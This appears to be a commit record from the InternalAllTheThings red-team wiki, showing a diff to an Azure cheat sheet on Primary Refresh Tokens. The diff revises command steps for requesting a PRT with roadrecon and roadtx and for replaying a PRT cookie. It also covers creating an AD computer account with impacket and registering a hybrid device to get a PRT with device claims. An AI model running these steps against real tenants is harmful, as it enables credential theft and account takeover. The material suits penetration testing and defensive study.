

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/cloud/azure/azure-access-and-token.md, in a window 1280 px wide and 1400 px high, scrolled down 2382 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Fix markdown typo

````diff
--- a/docs/cloud/azure/azure-access-and-token.md
+++ b/docs/cloud/azure/azure-access-and-token.md
@@ -114,25 +114,28 @@
 * No method known to date.
 
 
-### Use PRT cookie
+### Request a PRT using the Refresh Flow
 
-* `roadrecon auth prt-init`
-* Use [dirkjanm/ROADtoken](https://github.com/dirkjanm/ROADtoken) or [wotwot563/aad_prt_bof](https://github.com/wotwot563/aad_prt_bof)
-* `roadrecon auth --prt-cookie <prt-cookie> --tokens-stdout --debug`
+* Request a nonce from AAD: `roadrecon auth --prt-init -t <tenant-id>`
+* Use [dirkjanm/ROADtoken](https://github.com/dirkjanm/ROADtoken) or [wotwot563/aad_prt_bof](https://github.com/wotwot563/aad_prt_bof) to initiate a new PRT request.
+* `roadrecon auth --prt-cookie <prt-cookie> --tokens-stdout --debug` or  `roadtx gettoken --prt-cookie <x-ms-refreshtokencredential>`
 * Then browse to [login.microsoftonline.com ](login.microsoftonline.com ) with a cookie `x-ms-RefreshTokenCredential:<output-from-roadrecon>`
 
 
 ### Request a PRT with Hybrid Device
 
 Requirements:
+
 * ADDS user credentials
 * hybrid environment (ADDS and Azure AD)
 
 Use the user account to create a computer and request a PRT
+
 * Create a computer account in AD: `impacket-addcomputer <domain>/<username>:<password> -dc-ip <dc-ip>`
 * Configure the computer certificate in AD with [dirkjanm/roadtools_hybrid](https://github.com/dirkjanm/roadtools_hybrid): `python setcert.py 10.10.10.10  -t '<machine-account$>' -u '<domain>\<machine-account$>' -p <machine-password>`
 * Register the hybrid device in Azure AD with this certificate: `roadtx hybriddevice -c '<machine-account>.pem' -k '<machine-account>.key' --sid '<device-sid>' -t '<aad-tenant-id>'`
 * Get a PRT with device claim
+
     ```ps1
     roadtx prt -c <hybrid-device-name>.pem -k <hybrid-device-name>.key -u <username>@h<domain> -p <password>
     roadtx browserprtauth --prt <prt-token> --prt-sessionkey <prt-session-key> --keep-open -url https://portal.azure.com
@@ -157,3 +160,4 @@
 
 * [Hacking Your Cloud: Tokens Edition 2.0 - Edwin David - April 13, 2023](https://trustedsec.com/blog/hacking-your-cloud-tokens-edition-2-0)
 * [Microsoft 365 Developer Program](https://developer.microsoft.com/en-us/microsoft-365/dev-program)
+* [PRT Abuse from Userland with Cobalt Strike - 0xbad53c](https://red.0xbad53c.com/red-team-operations/azure-and-o365/prt-abuse-from-userland-with-cobalt-strike)
````
Also changed, not shown: docs/cloud/azure/azure-phishing.md (+1 -1 lines).
